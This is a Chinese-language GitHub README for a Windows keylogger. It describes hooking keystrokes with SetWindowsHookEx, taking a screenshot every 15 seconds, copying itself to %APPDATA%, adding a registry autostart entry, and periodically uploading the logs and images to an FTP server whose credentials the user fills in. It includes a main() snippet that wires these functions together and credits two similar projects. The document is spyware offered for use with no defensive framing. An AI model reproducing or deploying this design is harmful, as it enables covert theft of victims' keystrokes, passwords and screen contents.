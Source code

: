 # Keylogger（键盘记录、截屏、ftp传输）

## 基本原理
  1、通过WinAPI：SetWindowsHookEx进行键盘信息记录，记录结果形成一个txt文件，保存在%APPDATA%/IAMLOG/路径下，。
  2、定时截图（默认间隔15秒），图片保存在%APPDATA%/IAMLOG/路径下，。
  3、一个单独的线程定时通过ftp发送txt文件和图片文件，上传后的图片名称带有时间戳。
  4、程序第一次运行时会把自己复制到%APPDATA%/IAMLOG/路径下，并把相应路径写入注册表启动项，以后开机自动运行。

## FTP服务器：FileZilla
  使用方法比较简单，配置好服务器后将IP、端口号、用户名、密码更新到BCKeylogger.cpp中。

## 使用方法
  主要文件：BCKeylogger.h和BCKeylogger.cpp
  在主文件中引用头文件，并通过子线程调用Keylogger的主要功能，参考main.cpp主函数中的调用方法，如下所示：
  ```
  #include <thread>
  #include "BCKeylogger.h"

  using namespace std;

  int WINAPI wWinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PWSTR pCmdLine, int nCmdShow)
  {
	  userpath();
	  AutoCopy();
	  AutoStart();

	  std::thread t1(StartKeyLogging);
	  std::thread t2(sendfileProcess);

	  t1.join();
	  t2.join();
  }
  ```

## 主要参考了以下两个Github的代码
  [ajayrandhawa/Blackcat-Keylogger](https://github.com/ajayrandhawa/Blackcat-Keylogger)
  [vim2meta/keylogger](https://github.com/vim2meta/keylogger)
